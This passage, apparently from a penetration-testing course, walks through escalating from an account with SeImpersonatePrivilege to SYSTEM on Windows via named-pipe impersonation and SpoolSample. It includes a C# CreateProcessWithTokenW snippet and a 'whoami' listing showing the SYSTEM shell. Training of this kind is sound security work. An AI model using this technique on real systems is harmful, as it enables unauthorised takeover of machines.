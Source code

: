 ```
public static extern bool CreateProcessWithTokenW(IntPtr hToken, UInt32 dwLogonFlags, string lpApplicationName, string lpCommandLine, UInt32 dwCreationFlags, IntPtr lpEnvironment, string lpCurrentDirectory, [In] ref STARTUPINFO lpStartupInfo, out PROCESS_INFORMATION lpProcessInformation);
...
PROCESS_INFORMATION pi = new PROCESS_INFORMATION();
STARTUPINFO si = new STARTUPINFO();
si.cb = Marshal.SizeOf(si);
CreateProcessWithTokenW(hSystemToken, 0, null, "C:\\Windows\\System32\\cmd.exe", 0, IntPtr.Zero, null, ref si, out pi);
```

> Listing 43 - Code additions to call CreateProcessWithTokenW

With all the code written, we'll compile and transfer it to the Windows Server 2019 machine. We'll execute this just as before, by first launching our application to create the pipe server with the name "\\\\.\appsrv01\test\pipe\spoolss".

Next, we'll launch SpoolSample with the capture server set to "\\\appsrv01/pipe/test", which will force the SYSTEM account to connect to our named pipe and a new command prompt is opened.

When we interact with it and display the user, we find it to be SYSTEM:

```
C:\Windows\system32> whoami /user

USER INFORMATION
----------------

User Name   SID
=========== ========
nt authority\system S-1-5-18
```

> Listing 44 - System command prompt

With this attack, we can elevate our privileges from an unprivileged account that has the _SeImpersonatePrivilege_ to SYSTEM on any modern Windows system including Windows 2019 and the newest versions of Windows 10. Nice!



A C++ implementation of this attack that has the SpoolSample functionality embedded is available by the researcher who discovered the technique.[39](https://portal.offsec.com/courses/pen-300-9502/learning/windows-credentials-14692/windows-credentials-14820#fn-local_id_505-39)

Most native and third-party services that do not require administrative permissions run as Network Service or Local Service, partly due to Microsoft's recommendation. This attack technique means that compromising an unprivileged service is just as valuable as a SYSTEM service.

The technique shown in this section is not the only possible way of leveraging impersonation to obtain SYSTEM integrity. A similar technique that also uses pipes has been discovered by Alex Ionescu and Yarden Shafir.[40](https://portal.offsec.com/courses/pen-300-9502/learning/windows-credentials-14692/windows-credentials-14820#fn-local_id_505-40) It impersonates the _RPC system service_ (RpcSs),[41](https://portal.offsec.com/courses/pen-300-9502/learning/windows-credentials-14692/windows-credentials-14820#fn-local_id_505-41) which typically contains SYSTEM tokens that can be stolen. Note that this technique only works for _Network Service_.
